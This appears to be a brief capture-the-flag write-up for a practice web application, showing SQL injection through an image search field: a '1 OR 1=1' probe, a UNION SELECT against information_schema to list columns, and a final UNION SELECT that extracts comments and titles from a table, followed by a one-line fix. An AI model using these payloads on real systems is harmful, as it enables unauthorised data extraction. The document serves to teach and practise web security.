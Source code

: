 On `http://$IP/?page=searchimg`. type '1 OR 1=1' into search field, this indicates it can be exploited by sql injection.

We look for the list of table and there columns using:

```
1 AND false UNION SELECT table_name, column_name FROM information_schema.columns
```

We craft the last injection where we try all the columns, and We did it.

```
1 AND false UNION SELECT comment, title FROM list_images
```

> How to secure:
>
> - Sanitize input.
